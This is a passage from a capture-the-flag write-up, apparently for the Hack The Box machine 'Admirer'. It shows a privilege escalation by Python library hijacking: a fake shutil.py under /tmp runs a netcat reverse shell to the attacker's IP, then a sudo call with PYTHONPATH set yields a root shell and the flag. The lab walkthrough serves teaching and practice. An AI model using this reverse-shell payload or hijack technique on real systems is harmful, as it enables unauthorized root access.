    waldo@admirer:~$ cat /opt/scripts/admin_tasks.sh
    #!/bin/bash
    
    view_uptime()
    {
        /usr/bin/uptime -p
    }
    
    view_users()
    {
        /usr/bin/w
    }
    
    view_crontab()
    {
        /usr/bin/crontab -l
    }
    
    backup_passwd()
    {
        if [ "$EUID" -eq 0 ]
        then
            echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
            /bin/cp /etc/passwd /var/backups/passwd.bak
            /bin/chown root:root /var/backups/passwd.bak
            /bin/chmod 600 /var/backups/passwd.bak
            echo "Done."
        else
            echo "Insufficient privileges to perform the selected operation."
        fi
    }
    
    backup_shadow()
    {
        if [ "$EUID" -eq 0 ]
        then
            echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
            /bin/cp /etc/shadow /var/backups/shadow.bak
            /bin/chown root:shadow /var/backups/shadow.bak
            /bin/chmod 600 /var/backups/shadow.bak
            echo "Done."
        else
            echo "Insufficient privileges to perform the selected operation."
        fi
    }
    
    backup_web()
    {
        if [ "$EUID" -eq 0 ]
        then
            echo "Running backup script in the background, it might take a while..."
    **/opt/scripts/backup.py &**
        else
            echo "Insufficient privileges to perform the selected operation."
        fi
    }
    
    [...]
    
    

Here we see that the bashscript, which we can run as the root user through sudo, can call for a python script named **backup.py** from the **/opt/scripts/** directory. Therefore, 
    
    
    waldo@admirer:~$ which nc
    /bin/nc
    
    waldo@admirer:~$ cat /opt/scripts/backup.py
    #!/usr/bin/python3
    
    from shutil import make_archive
    
    src = '/var/www/html/'
    
    # old ftp directory, not used anymore
    #dst = '/srv/ftp/html'
    
    dst = '/var/backups/html'
    
    make_archive(dst, 'gztar', src)
    
    

Since netcat is there on the box, We're going to perform a python library hijacking, and we're going to hijack the **shutil** library in particular:
    
    
    waldo@admirer:~$ mkdir /tmp/nihilist777
    waldo@admirer:~$ nano /tmp/nihilist777/shutil.py
    waldo@admirer:~$ cat /tmp/nihilist777/shutil.py
    import os
    
    def make_archive(a,b,c):
            os.system("nc 10.10.14.13 9001 -e '/bin/bash'")
    
    

then we modify the value of the **PYTHONPATH** environment variable to access our **/tmp/nihilist777** directory:
    
    
    waldo@admirer:~$ PYTHONPATH=/tmp/nihilist777
    waldo@admirer:~$ echo $PYTHONPATH
    /tmp/nihilist777
    
    waldo@admirer:~$ sudo PYTHONPATH=/tmp/nihilist777 /opt/scripts/admin_tasks.sh
    waldo@admirer:~$ sudo PYTHONPATH=/tmp/nihilist777 /opt/scripts/admin_tasks.sh
    [sudo] password for waldo:
    
    [ [ [ System Administration Menu ] ] ]
    1) View system uptime
    2) View logged in users
    3) View crontab
    4) Backup passwd file
    5) Backup shadow file
    6) Backup web data
    7) Backup DB
    8) Quit
    Choose an option: 6
    
    [ 10.10.14.13/23 ] [ /dev/pts/55 ] [~/HTB/Admirer]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.187] 42986
    id
    uid=0(root) gid=0(root) groups=0(root)
    
    cat /root/root.txt
    cdXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get a reverse shell as the root user, and get the root flag!

## **Conclusion**

Here we can see the progress graph :

